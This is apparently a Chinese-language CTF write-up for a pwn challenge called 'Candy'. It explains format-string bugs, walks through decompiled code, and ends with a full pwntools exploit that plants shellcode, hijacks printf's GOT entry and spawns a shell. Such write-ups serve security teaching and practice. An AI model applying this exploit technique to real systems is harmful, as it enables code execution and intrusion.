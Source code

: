 # Candy

- 作者：pn1fg
- 参考：-
- 难度：Baby/Trivial/Easy/Normal/Medium/Hard/Expert/Insane
- 分类：Pwn
- 镜像：[svuctf-winter-2023/candy](https://ghcr.io/svuctf/svuctf-winter-2023/candy)
- 端口：70

## 题目描述

## 题目解析

- 源码：[main.c](/build/main.c)
- 考点：格式化字符串，GOT 劫持，shellcode

格式化字符串函数是根据格式化字符串来进行解析的 。**那么相应的要被解析的参数的个数也自然是由这个格式化字符串所控制**。比如说'%s'表明我们会输出一个字符串参数。

![](writeup/images/printf.png)

在进入 printf 之后，函数首先获取第一个参数，一个一个读取其字符会遇到两种情况

- 当前字符不是 %，直接输出到相应标准输出。 
- 当前字符是 %， 继续读取下一个字符 
- 如果没有字符，报错 
- 如果下一个字符是 %, 输出 % 
- 否则根据相应的字符，获取相应的参数，对其进行解析并输出 

那么假设，此时我们在编写程序时候，写成了下面的样子

```c++
printf("Color %s, Number %d, Float %4.2f");
```
此时我们可以发现我们并没有提供参数，那么程序会如何运行呢？程序照样会运行，会将栈上存储格式化字符串地址上面的三个变量分别解析为
- 1.解析其地址对应的字符串 
- 2.解析其内容对应的整形值 
- 3.解析其内容对应的浮点值

这基本就是格式化字符串漏洞的基本原理了。

### 查看文件信息
查看文件类型（`file` 命令）：
```shell
$ file pwn
pwn: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=0059aa9c4a34393d23601ab109b1b940e1a6424e, for GNU/Linux 4.4.0, not stripped
```
这是一个64位 ELF 文件（`ELF 64-bit LSB executable`），动态链接（`dynamically linked`），没有去除符号（`not stripped`）

检查文件保护机制（`checksec`命令）：
```shell
$ checksec pwn
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
### 分析漏洞成因

反编译 `main` 函数：
```c++
ulong main(void)

{
    sym.init();
    sym.banner();
    sym.vuln();
    return 0;
}
```
反编译 `init` 函数：
```c++
void sym.init(void)

{
    sym.imp.setvbuf(_reloc.stdin, 0, 2, 0);
    sym.imp.setvbuf(_reloc.stdout, 0, 2, 0);
    sym.imp.setvbuf(_reloc.stderr, 0, 2, 0);
    sym.imp.mprotect(reloc.puts, 0x1000, 7);
    return;
}
```
`mprotect` 函数原型
```c++  
int mprotect(const void *start, size_t len, int prot);
```
`mprotect()` 函数把自 start 开始的、长度为 len 的内存区的保护属性修改为 prot 指定的值。这里的 prot 为7，所以这一块内存区则**可读可写可执行**

反编译 `vuln` 函数：
```c++
void sym.vuln(void)

{
    ulong format;
    ulong var_4h;

    sym.imp.puts("Input your favorite candy:");
    while( true ) {
        sym.menu();
        sym.imp.__isoc99_scanf(0x402423, &var_4h);
        if (var_4h == 3) {
            sym.imp.puts("There is no Unique Human Adventured");
            return;
        }
        if (3 < var_4h) break;
        if (var_4h == 1) {
            sym.imp.read(0, obj.name, 0x100);
        }
        else {
            if (var_4h != 2) break;
            sym.imp.puts("There\'s a candy voucher in the flag!");
            sym.imp.memset(&format, 0, 0x100);
            sym.imp.read(0, &format, 0x100);
            sym.imp.printf(&format);
        }
    }
    sym.imp.puts("Don\'t you like all of them?");
    return;
}
```
分析一下 `vuln` 函数的逻辑，最外层 `while` 循环，然后输入一个整形值，接下来 `if` 条件判断，当输入的值为 `1` 时，调用 `read` 函数向 `obj.name` 中读入 0x100 字符串，`obj.name` 位于`bss`段上，有可执行权限，当输入的值为 `2` 时，执行的分支语句为：

```c++
sym.imp.puts("There\'s a candy voucher in the flag!");
sym.imp.memset(&format, 0, 0x100);
sym.imp.read(0, &format, 0x100);
sym.imp.printf(&format);
```
这里有很明显的格式化字符串漏洞，可以修改任意地址

这题我们的利用思路如下：

- 在 `obj.name` 处填入 shellcode 
- 利用格式化字符串漏洞劫持 GOT 表，修改 `printf` 处地址为 `obj.name` 地址即可执行 shellcode，获取 shell

### 编写利用程序
[exp.py](writeup/exp.py)
```python
from pwn import *

context.arch = "amd64"
context.log_level = "debug"

if args['REMOTE']:
    io = remote('IP',port)
else:
    io = process("./candy")

elf = ELF("./candy")

def exec_fmt(pad):
    io = process("./candy")
    io.sendline(b"2")
    io.send(pad)
    info = io.recv()
    io.close()
    return info

fmt = FmtStr(exec_fmt)
offset = fmt.offset
print("offset ===> ", offset)

pad = fmtstr_payload(offset, {elf.got["printf"]: elf.sym["name"]})

io.sendlineafter(b"Command:", b"1")
io.send(asm(shellcraft.sh()))

io.sendlineafter(b"Command:", b"2")
io.sendlineafter(b"flag!\n", pad)

io.interactive()
```